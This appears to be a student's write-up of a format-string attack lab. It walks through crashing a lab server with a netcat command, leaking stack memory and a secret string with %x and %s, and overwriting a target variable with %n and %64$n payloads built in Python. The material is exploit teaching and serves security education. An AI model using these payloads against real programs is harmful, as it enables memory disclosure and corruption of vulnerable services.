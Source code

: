 # Format-string Attack Lab

Some programs allow users to provide the entire or part of the contents in a format string. If such contents are not sanitized, malicious users can use this opportunity to get the program to run arbitrary code. A problem like this is called format string vulnerability.

## Task1: Crashing the Program

It is possibile to make the program crash with the following input:
> echo %s | nc 10.9.0.5 9090

In this case, the program will interpret the %s as a pointer to a strin, starting from the location of the buffer. If it gets an invalid address the program will try to access that address and this will cause the program to crash.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A

By writing the following content to the badfile it is possible to notice that after 64 %x our input will show up.

```py
content[0:4] = (0x99999999).to_bytes(4, byteorder='little')
s = ("%x "*64).encode('latin-1')
content[4:4+len(s)] = s
```

### Task 2.B

To print out the secret message, we need to place its address, in binary form, in the format string and read that address with %s.

```py
content[0:4] = (0x080ac2c8).to_bytes(4, byteorder='little')
s = ("%x "*63 + "%s").encode('latin-1')
content[4:4+len(s)] = s
```

## Task 3: Modifying the Server Program’s Memory

### Task 3.A

With %n we can write into the target variable. In particular, %n writes the number of characters in the address given as argument.

```py
content[0:4] = (0x080da068).to_bytes(4, byteorder='little')
s = ("%x "*63 + "%n").encode('latin-1')
content[4:4+len(s)] = s
```

### Task 3.B

In this task we first need to put into the stack the address of the target variable that are 4bytes. Then, to write 0x5000 which is 20480, we can add a width of 20476 (considering the first 4 bytes of the address) and at the end use %64$n. The latter format directly access the 64th parameter (we know that our address resides in the 64th position) on stack and write the address there with %n.

```py
content[0:4] = (0x080da068).to_bytes(4, byteorder='little')
s = ("%20476d" + "%64$n").encode('latin-1') #%64$08n
content[4:4+len(s)] = s
```

